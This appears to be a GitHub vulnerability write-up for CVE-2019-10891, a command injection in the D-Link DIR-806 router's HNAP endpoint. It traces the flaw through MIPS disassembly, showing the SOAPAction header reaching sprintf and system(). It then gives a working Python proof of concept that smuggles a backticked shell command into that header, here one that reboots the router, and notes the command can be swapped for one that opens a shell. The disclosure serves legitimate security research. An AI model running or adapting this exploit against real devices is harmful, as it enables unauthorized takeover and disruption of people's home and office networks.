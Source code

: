 # DIR-806_Code_Injection
**CVE-2019-10891**

The fireware is the lasted version of DIR-806 in D-LINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
finally it will call sprintf to make a shell and call system to run it：
```
.text:00412420                 move    $a0, $s4
.text:00412424                 la      $a2, aVarRun_0   # "/var/run/"
.text:00412428                 b       loc_412440
.text:0041242C                 la      $a1, aShSS_shDevCons  # "sh %s%s.sh > /dev/console"
.text:00412430  # ---------------------------------------------------------------------------
.text:00412430
.text:00412430 loc_412430:                              # CODE XREF: hnap_main+4C4↑j
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
.text:00412444                 move    $a3, $s0
.text:00412448                 lw      $gp, 0x248+var_230($sp)
.text:0041244C                 la      $t9, system
.text:00412450                 jalr    $t9 ; system
```
so when we make a fake SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings` and end with `/our cmd`,it will finally execv our cmd in system function
## POC
```
from pwn import *
import requests
import sys

data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    cmd="reboot" #the shell you want execv,it can't include "/"
    fake_cmd="http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"  %cmd
    print fake_cmd
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    print r.content
    log.info("Kirin-say PWN")
```
when you run this poc,it will reboot the router(DIR-806),and you can also edit the cmd you want to run to get shell or something else.
For example(I run the fireware in firm dyne and run its web server,when I run the POC,the router reboot successfully)
![Success](https://upload-images.jianshu.io/upload_images/7434375-62cf44267ffd84b5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

